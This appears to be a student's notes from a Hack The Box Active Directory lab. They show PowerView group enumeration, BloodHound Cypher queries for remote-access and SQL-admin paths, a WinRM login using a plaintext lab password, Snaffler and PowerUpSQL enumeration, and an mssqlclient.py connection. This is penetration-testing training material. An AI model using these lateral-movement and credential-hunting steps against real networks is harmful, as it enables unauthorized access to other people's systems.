 #### Enumerating the Remote Desktop Users Group

```powershell
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Desktop Users
MemberName   : INLANEFREIGHT\Domain Users # All Domain Users
SID          : S-1-5-21-3842939050-3880317879-2865463114-513
IsGroup      : True
IsDomain     : UNKNOWN
```

#### Enumerating the Remote Management Users Group

```powershell
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

#### Establishing WinRM Session from Windows

```powershell
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred

[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> hostname
ACADEMY-EA-DB01
[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
PS C:\htb> 
```

## SQL Server Admin

#### <span style="color:pink"> Snaffler</span>
Using the tool [Snaffler](https://github.com/SnaffCon/Snaffler) to find web.config or other types of configurations files that contain SQL server connection strings .

##### Find SQLAdmin 
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

#### Enumerating MSSQL Instances with PowerUpSQL

```powershell
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain

ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccountSid : 1500000521000170152142291832437223174127203170152400
DomainAccount    : damundsen
DomainAccountCn  : Dana Amundsen
Service          : MSSQLSvc
Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
LastLogon        : 4/6/2022 11:59 AM
```

Enumerating MSSQL Instances with PowerUpSQL

```powershell

VERBOSE: 172.16.5.150,1433 : Connection Success.

Column1
-------
Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) ...
```

#### Running mssqlclient.py Against the Target

```shell
Sauuron@htb[/htb]$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

